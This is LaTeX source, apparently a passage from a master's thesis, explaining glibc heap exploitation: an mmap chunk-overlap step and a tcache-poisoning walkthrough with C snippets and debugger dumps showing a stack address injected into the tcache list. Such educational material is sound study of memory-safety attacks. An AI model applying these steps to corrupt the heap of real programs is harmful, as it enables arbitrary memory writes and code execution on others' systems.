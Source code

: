 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3);
\end{lstlisting}

In this stage if we allocate a new big chunk, this new big chunk is overlap with chunk\_2 which just has been unmmap without call unmmap directly, as the result, we can write on the chunk2 area with the help of our new chunk.

\section{\tch{} poisoning}
This attack is specially designed for \tch{} bins, As a result, The \tch{} attack won't work on the older version of libc which does not have \tch{}. The final goal is to force \tch{} to return a chunk in a controlled location for example the stack. consider the following code: 

\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE) 
\end{lstlisting}

The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. In newer versions of \libc{}, this chunk could be added to \tch{}.
In the second step we overwrite the fd pointer of chunk ‘b’:

\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=)  Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA)  [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of \tch{} , the previous chunk is not valid anymore , it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation , we can remove top chunk from the \tch{} , so , the next allocation return our controller location (the size must be the same): 
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}
\end{document}
